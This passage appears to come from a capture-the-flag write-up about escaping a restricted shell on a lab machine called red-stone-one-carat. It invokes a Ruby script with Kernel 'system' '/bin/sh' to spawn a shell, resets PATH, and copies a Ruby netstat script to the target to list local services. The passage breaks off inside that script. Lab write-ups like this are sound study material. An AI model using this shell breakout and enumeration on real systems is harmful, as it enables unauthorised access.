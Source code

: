 #### Read and reasearch for methods (constantize and send()) in the file.

We can run system commands!
```bash
red-stone-one-carat% test.rb Kernel 'system' "/bin/sh"
$ alias
$ which cat
/bin/sh: 2: which: not found
```
So in this way commands are not restricted but they are missing.Now we will import PATHs.

```bash
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ echo $PATH 
/home/noraj/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
$ which cat
$ which which 
/usr/bin/which
$ which ruby
/usr/bin/ruby
```
We don't have commands to see local services so maybe we can see local services like netstat in another way ...

In our local machine, we copy [Netstat in Ruby](https://gist.github.com/kwilczynski/954046) and using scp we send that to the target.

```bash
root@ip-10-10-250-253:~# cat net.rb 
!#/usr/bin/env ruby

PROC\_NET\_TCP = '/proc/net/tcp'  # This should always be the same ...

TCP\_STATES = { '00' => 'UNKNOWN',  # Bad state ... Impossible to achieve ...
               'FF' => 'UNKNOWN',  # Bad state ... Impossible to achieve ...
               '01' => 'ESTABLISHED',
               '02' => 'SYN\_SENT',
               '03' => 'SYN\_RECV',
               '04' => 'FIN\_WAIT1',
               '05' => 'FIN\_WAIT2',
               '06' => 'TIME\_WAIT',
               '07' => 'CLOSE',
               '08' => 'CLOSE\_WAIT',
               '09' => 'LAST\_ACK',
               '0A' => 'LISTEN',
               '0B' => 'CLOSING' } # Not a valid state ...

if $0 == \_\_FILE\_\_

  STDOUT.sync = true
  STDERR.sync = true

  File.open(PROC\_NET\_TCP).each do |i|

    i = i.strip

    next unless i.match(/^\\d+/)

    i = i.split(' ')

    local, remote, state = i.values\_at(1, 2, 3)

    local\_IP, local\_port   = local.split(':').collect { |i| i.to\_i(16) }
    remote\_IP, remote\_port = remote.split(':').collect { |i| i.to\_i(16) }

```